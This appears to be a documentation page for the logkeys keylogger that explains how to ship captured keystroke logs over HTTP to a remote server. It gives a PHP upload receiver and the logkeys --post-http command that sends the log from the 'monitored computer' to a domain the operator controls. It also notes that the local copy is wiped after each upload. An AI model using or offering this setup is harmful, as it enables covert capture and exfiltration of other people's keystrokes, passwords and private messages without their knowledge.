

# Post to HTTP #
A sample implementation:
  1. Get some [PHP web hosting](http://www.google.com/search?q=free+web+hosting), get [domain name](http://GetFreeDomain-Site.co.cc/list).
  1. Upload the following PHP script, name it "upload.php"
```
<?php

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  
  $file = $_FILES['file'];
  
  if ($file['error'] === UPLOAD_ERR_OK) 
    move_uploaded_file($file['tmp_name'], 'new.log');
}

?>
```
  1. Run logkeys with `--post-http=http://your.doma.in/upload.php` and it will upload log to specified URL every once it reaches `--post-size` in size (default 500KB). Note, the script above will overwrite "new.log" file every time. Also note that once the log is successfully sent, it is wiped from the monitored computer.
